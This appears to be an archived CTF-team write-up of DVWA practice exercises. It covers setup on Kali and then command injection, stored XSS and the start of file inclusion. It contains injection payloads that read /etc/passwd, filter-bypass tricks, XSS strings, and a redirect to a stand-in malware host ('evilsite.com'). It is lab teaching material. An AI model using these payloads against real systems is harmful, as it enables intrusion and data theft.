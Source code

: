 ```yaml
---
tagline: "Web Exploitation: DVWA"
date: 2016-10-25
categories: archived
author: auctf
tags: web
---
```


# Matthews Notes

## Installing DVWA on kali.

download DVWA:
http://www.dvwa.co.uk/


unzip it and put it in /var/www/html
mv DVWA-1.9/ /dvwa
chmod -R 755 dvwa
sudo service mysql start
mysql -u root -p
create database dvwa;
exit
nano dvwa/config/config.inc.php and change the db_password to ''
service apache2 start
go to /dvwa/setup.php

Fixing some permission errors:
chgrp www-data dvwa/hackable/uploads/
chmod g+w dvwa/hackable/uploads/
chgrp www-data dvwa/external/phpids/0.6/lib/IDS/tmp/phpids_log.txt
chmod g+w dvwa/external/phpids/0.6/lib/IDS/tmp/phpids_log.txt

to get php-gd we need to add a repo.
nano /etc/apt/sources.list

at the end of the file add:
deb http://repo.kali.org/kali kali-rolling main non-free contrib 
and save the file.

apt-get update
apt-get install php-gd

nano /etc/php5/apache2/php.ini
change allow_url_include from Off to On
service apache2 restart

Now we're good to start!
You could try to brute force to login using burpsuite, but the default security setting is impossible.
So use : 
username:admin 
password:password


## Command Injection

Security: low

Heres we can see at /var/www/html/dvwa/vulnerabilities/exec/source/low.php that there is no blacklist,

so we can simply provide another command using the semicolon and it will execute the second one.

127.0.0.1; cat /etc/passwd

Security: medium

looking at /var/www/html/dvwa/vulnerabilities/exec/source/medium.php we can see a blacklist has been added to remove &&, and ;
This means we can no longer do our low solution.

Theres this handy thing called a pipe "|", so what if we use it instead of a semi colon.

We can send 
127.0.0.1 | cat /etc/passwd

we could also do 
127.0.0.1 &;& cat /etc/passwd 
thus recreating && since the semicolon is santized.
&& executes a command if the previous one worked.

Hey it works!

Security: high

We have quite the blacklist for this one which prevents us from using a number of special characters. Unless we can somehow bypass the blacklist

The description for high level says "The developer has either made a slight typo with the filters, and believes a certain PHP command will save them from this mistake
We can see they accidently only put one '&' instead of two. 
The command different between medium and high is the trim command which strips whitespace from the beginning and end of the command
This means whitespace in the middle of a command is perfectly safe from trimming
What if we had something like \n which is treated like whitespace, we could use characters like this 

It doesn't work for some reason

## XSS Stored

Security: low
Here we can do a simple xss, and do
alert("XSS")
in <script> tags
do change this to redirection to some website, simply replace 'alert("XSS")' with
document.location='http://evilsite.com/malware'

Security: medium
Here we can see they are filtering message box pretty well, but its different for the name field, so we'll start there
It is looking for '<script>' so we can just provide a different but equivalent string, like
'<ScRiPt>' , doing this allows our previous test to work
alert("XSS")
in <ScRiPt> tags

Security: high

Here they are filtering out anything that looks like script, so we have to use something else.
<svg onload=prompt('xss')>


## File Inclusion

By clicking on the example files we can see that they are dynamically running them to gather information,
this means that we could inject code into them, and similar to an XSS attack, run whatever we want on this website

Security: low

There are two types of exploits here, Local Files (LF) which are stored on the site.
and Remote Files (RF) which are not, but that doesn't mean we can't do anything about them.
